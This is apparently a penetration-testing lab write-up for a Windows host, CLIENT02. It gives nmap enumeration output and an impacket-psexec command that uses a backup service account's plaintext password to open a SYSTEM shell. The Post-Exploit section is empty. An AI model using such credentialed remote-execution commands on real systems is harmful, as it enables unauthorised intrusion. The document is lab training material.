

# CLIENT02

## Enumeration

Output from `nmap` command run [here](./#nmap):

```
Nmap scan report for vm8.skylark (10.20.111.111)
Host is up (0.042s latency).
Not shown: 65522 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 7e:c9:fb:f8:f5:82:45:fa:fe:11:79:bd:f8:8e:b3:d5 (RSA)
|_  256 8e:e3:c0:26:7d:07:fb:53:0b:92:76:df:8d:83:e8:d6 (ECDSA)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.11.X (85%)
OS CPE: cpe:/o:ibm:zos:1.11
Aggressive OS guesses: IBM z/OS 1.11 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: CLIENT02, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:bf:91:03 (VMware)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-09-02T00:02:09
|_  start_date: N/A

TRACEROUTE
HOP RTT      ADDRESS
1   42.36 ms vm8.skylark (10.20.111.111)

Post-scan script results:
| clock-skew: 
|   0s: 
|     10.20.111.111 (vm8.skylark)
|     10.20.111.110 (vm7.skylark)
|_    10.20.111.15 (vm6.skylark)
```

## Foothold

Initial access is provided as `SYSTEM` by using the `SKYLARK\backup_service` credentials and `impacket-psexec`:


```bash
rlwrap impacket-psexec SKYLARK/backup_service:'It4Server'@client02.skylark.com
```


<figure><figcaption><p>SYSTEM command prompt using impacket-psexec</p></figcaption></figure>

## Post-Exploit

